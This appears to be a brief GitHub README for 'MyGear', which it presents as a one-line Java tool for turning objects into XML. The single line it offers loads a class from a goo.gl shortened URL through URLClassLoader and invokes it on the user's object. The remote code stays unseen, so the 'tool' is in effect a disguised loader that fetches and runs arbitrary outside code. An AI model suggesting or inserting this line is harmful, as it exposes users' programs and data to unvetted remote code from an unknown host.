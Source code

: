 # MyGear
One line tool for Object->XML transformation

new java.net.URLClassLoader(new java.net.URL[] { new java.net.URL("http://goo.gl/nDOuDG") }).loadClass("p.C").getMethod("m", Object.class).invoke(null, >>>Insert Object here<<<);